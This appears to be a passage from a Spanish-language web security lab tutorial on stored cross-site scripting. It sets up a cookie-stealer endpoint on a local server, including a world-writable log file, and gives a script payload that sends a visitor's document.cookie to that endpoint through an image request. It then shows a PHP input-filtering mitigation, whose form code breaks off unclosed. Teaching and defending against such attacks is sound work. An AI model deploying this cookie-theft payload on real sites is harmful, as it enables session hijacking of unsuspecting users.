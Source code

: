 Crea en tu servidor web una carpeta con nombre cookieStealer y carpetas asociadas:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
~~~
 
> Si estamos con la Pila LAMP también lo podemos hacer directamente en la ruta _./www/cookieStealer_

Copia en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
 - Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

<div align="center">
  <img src="/Imagenes/5.png" width="500">
</div>

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
~~~